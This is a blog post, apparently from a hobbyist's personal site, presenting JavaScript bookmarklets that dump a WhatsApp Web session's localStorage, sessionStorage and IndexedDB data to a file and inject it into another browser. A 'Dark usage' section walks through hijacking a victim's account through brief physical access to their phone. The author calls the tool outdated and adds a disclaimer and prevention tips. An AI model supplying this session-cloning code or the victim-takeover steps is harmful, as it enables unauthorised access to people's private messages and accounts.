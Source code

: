 ```yaml
---
layout: post
title: "WhatsApp Web Session Dumper"
author: Flareonz44
tags: [cybersec]
type: project
metadesc: An [outdated] whatsapp web hijack that cones the session into a file
---
```


***All content shown in this post is exclusively for educational purposes. I'm not responsible for the use you make of the information shown here.***

The code is also on my [GitHub](https://github.com/Flareonz44/WhatsApp-Web-Session-Dumper)!

# IMPORTANT NOTICE (08/09/2022)

This tool has been deprecated due to changes in the WhatsApp Web application. The method previously used by this tool no longer works with WhatsApp Web, but it may still be effective on other platforms. Nonetheless, I'll keep this page here for future generations :)

## About

Well, this is what its name suggests: It's a dumper that extracts all the WhatsApp Web data stored on your computer into a file. You can then inject this data into another computer, granting access to the web session without the need to scan the QR code again. This repository consists of two files: `wawebb_session_dumper.js` and `wawebb_session_injector.js`. These two files are independent and can be run separately without affecting the results. Let's take a closer look at what they do.

### wawebb_session_dumper.js

This script iterates over all the data stored on your localStorage, arranges it and creates a file that is automatic downloaded, after you provide a name fot the file.

```javascript
function save(data) {
    var doc = document.createElement("a");
    doc.href = window.URL.createObjectURL(new Blob([data], {
        type: "text/plain"
    }));
    filen = prompt("Input session name", "saved-session") + ".was";
    if (!(filen == "null.was")) {
        doc.download = filen;
        doc.click();
        alert("\nFile successfuly saved as " + filen + "\n\nCreated by Flareonz44");
    }
}
if ((document.title).indexOf("WhatsApp") >= 0) {
    naou = "";
    for (i = 0; i < localStorage.length; i++) {
        keyn = localStorage.key(i);
        datag = localStorage.getItem(localStorage.key(i));
        if (!(i == 0)) {
            naou += "\n";
        }
        naou += keyn + ":::" + datag;
    }
    naou += "\n>>\n";
    for (i = 0; i < sessionStorage.length; i++) {
        keyn = sessionStorage.key(i);
        datag = sessionStorage.getItem(sessionStorage.key(i));
        if (!(i == 0)) {
            naou += "\n";
        }
        naou += keyn + ":::" + datag;
    }
    naou += "\n>>\n";
    idb = indexedDB.open("wawc");
    idb.onsuccess = function() {
        dbm = idb.result;
        d1 = dbm.transaction("user", "readwrite").objectStore("user").getAll();
        d1.onsuccess = function() {
            naou += JSON.stringify(d1.result) + "\n";
            save(naou);
        }
    }
} else {
    alert("\nERROR\nRun script inside WhatsApp's tab!");
}

```

### wawebb_session_injector.js

This scripts does the inverse process of the script above, it asks for the data (created with the last script) of the file, and then it restores all the saved data back to localStorege, then it reloads the page.

```javascript
if ((document.title).indexOf("WhatsApp") >= 0) {
    sesf = prompt("Paste raw data from .was files");
    if (sesf.indexOf(">>") >= 0) {
        sesfarr = sesf.split(">>");
        for (i = 0; i < sesfarr.length; i++) {
            if (i == 0) {
                localStorage.clear();
                keyl = sesfarr[0].split("\n");
                for (j = 0; j < keyl.length; j++) {
                    if (keyl[j].indexOf(":::") >= 0) {
                        key = keyl[j].split(":::")[0];
                        val = keyl[j].split(":::")[1];
                        localStorage.setItem(key, val);
                    }
                }
            } else if (i == 1) {
                sessionStorage.clear();
                keyl = sesfarr[0].split("\n");
                for (j = 0; j < keyl.length; j++) {
                    if (keyl[j].indexOf(":::") >= 0) {
                        let key = keyl[j].split(":::")[0];
                        let val = keyl[j].split(":::")[1];
                        sessionStorage.setItem(key, val);
                    }
                }
            } else if (i == 2) {
                sesfarr[2] = sesfarr[2].replace(/(\n)/g, "");
                let idb = indexedDB.open("wawc");
                idb.onsuccess = function() {
                    let dbm = idb.result;
                    let d1 = dbm.transaction("user", "readwrite").objectStore("user").clear();
                    d1.onsuccess = function() {
                        let d2 = dbm.transaction("user", "readwrite").objectStore("user").put(JSON.parse(sesfarr[2]));
                    }
                }
            }
        }
        alert("\nData successfuly loaded!" + "\n\n       Created by Flareonz44");
        location.reload();
    } else {
        alert("\nERROR\nA valid raw data must be pasted!");
    }
} else {
    alert("\nERROR\nRun Script inside WhatsApp's tab!");
}
```

## Usage

This is very easy to use. First you have to create two bookmarks on Chrome: one for the dumper and the other for the injector. Select all the code above, copy it, and then, create a new bookmark. In the name write wawebb_session_dumper.js and where sais 'URL', delete all and write 'javascript: ' (without quotes and with a space between the ':' and the code, like 'javascript: functi...' rather than 'javascript:functi...') and then, paste the copied code next tho the ': ', like so:

![bookmark how to](/images/2022-8-9-ws-web-session-dumper/1.png)

Then do the same for the other script and save those bookmarks into the same folder. Now go to WhatsApp Web and scan the QR as always. Wait until it is completely loaded and when you are ready, go to your bookmark folder and click on wawebb_session_dumper.js. A prompt will apear asking for for a name for the session, just provide the name you like and click on ok. A file will be downloaded. Thats the session file.

Now, copy that file into an USB stick, or save it on the cloud (or wherever you want) and go to another computer. Open the session file with the notepad and select all the text and copy it to the clipboard. Go to WhatsApp Web on Chrome and launch the bookmark wawebb_session_injector.js. A promp will apear asking you to provide the content of the session file. Just Ctrl + V or right-click-then-paste on the textbox the content of the clipboard and hit ok. Finally realod the page and thats all! you must be logged with the web session like in the first computer.

## Notes

This script was also tested on Android 10 Chrome Browser, so you can dump and inject on Android too! Anyway, I'm afraid that there is not a 100% compatibility, so it may work on the most of the latest devices, but it could fail to execute on older devices. This script was tested on Chrome Browser version 97. Not tested on other browsers.

## Dark usage

As a cyber-security entusiast, I must say that this tool could be used to gain access to someone's WhatsApp. You only need to know the victim's phone password (or PIN) and have phisical access to his phone for at least 1 minute with Internet connection.

Open Chrome Browser on your phone, search for 'whatsapp web' and, on the Google's results page, put your browser in Desktop Mode, then reload the result page and go to Whatsapp Web. Put your phone in landscape mode (rotate it) and wait untill you see the QR code. When it is loaded, grab the victim's phone, go to his WhatsApp and add a new Conected Device, then scan the QR on your phone and when it's done, launch the wawebb_session_dumper.js bookmark (previously created on your Chrome Browser) and then provide a name for the session file.

The next step is to copy the session file to your personal computer and injet it on your browser. Now you can see the victim's WhatsApp.

## Prevention

Here you have some tips for protecting yourself from this kind of attack:
- Always check what Connected Devices you have, and close the ones that seems suspicious.
- Change you phone PIN regularly.
- Prefere text-based password for your phone, rather than a Pattern (which is more easy to remember and hack) and/or
- biometric-based.
- Add a second password to open WhatsApp (you can use an app like Norton App Lock)
- Add the second fingerprint authentication on WhatsApp (only availiable on latest releases and on some devices only)

Till next time!